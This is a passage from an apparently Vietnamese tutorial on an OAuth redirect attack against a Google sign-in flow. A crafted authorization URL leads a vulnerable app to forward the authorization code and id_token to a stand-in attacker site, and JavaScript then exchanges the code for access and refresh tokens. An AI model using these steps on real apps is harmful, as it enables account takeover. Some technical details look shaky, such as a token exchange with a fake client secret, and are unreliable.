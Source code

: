 #### Step 8: Biến thể Nguy hiểm - Multiple Response Types
Kẻ tấn công sử dụng `response_type` kết hợp để lấy **cả code và id_token**:
```
https://accounts.google.com/o/oauth2/v2/auth?
    response_type=code,id_token&
    client_id=client_id_app_bi_tan_cong&
    redirect_uri=https://legitimate-app.com/oauth/callback&
    scope=openid%20email%20profile&
    state=random_state_789&
    nonce=advanced_attack_999&
    access_type=offline&
    prompt=none
```
**Kết quả redirect từ Google**:
```
https://legitimate-app.com/oauth/callback#
    code=4/0AbCdEfGhIjKlMnOpQrStUvWxYz1234567890_very_long_authorization_code&
    id_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.very_long_jwt_token_here&
    state=random_state_789
```

#### Step 9: App Bị Tấn công Vẫn Bối rối
Ứng dụng bị tấn công vẫn không xử lý được:
- Có `code` trong fragment (không phải query parameters)
- Có `id_token` (ứng dụng không biết xử lý)
- → Vẫn rơi vào error handling
Ứng dụng vẫn redirect về trang của kẻ tấn công:
```
https://attacker-malicious-site.com/free-upgrade#
    code=4/0AbCdEfGhIjKlMnOpQrStUvWxYz1234567890_very_long_authorization_code&
    id_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.very_long_jwt_token_here&
    state=random_state_789
```

#### Step 10: Attacker Chiếm quyền Hoàn toàn
Với `authorization code`, kẻ tấn công có thể:
```javascript
// Trao đổi code lấy access token
const tokenResponse = await fetch('https://oauth2.googleapis.com/token', {
    method: 'POST',
    body: new URLSearchParams({
        code: authorizationCode,
        client_id: 'client_id_app_bi_tan_cong',
        client_secret: 'attacker_khong_co_nhung_app_van_chap_nhan_code',
        redirect_uri: 'https://legitimate-app.com/oauth/callback',
        grant_type: 'authorization_code'
    })
});

const tokens = await tokenResponse.json();
const accessToken = tokens.access_token;
const refreshToken = tokens.refresh_token;

// Sử dụng access token để truy cập API của app bị tấn công
const userProfile = await fetch('https://legitimate-app.com/api/user/profile', {
    headers: {
        'Authorization': `Bearer ${accessToken}`
    }
});
```
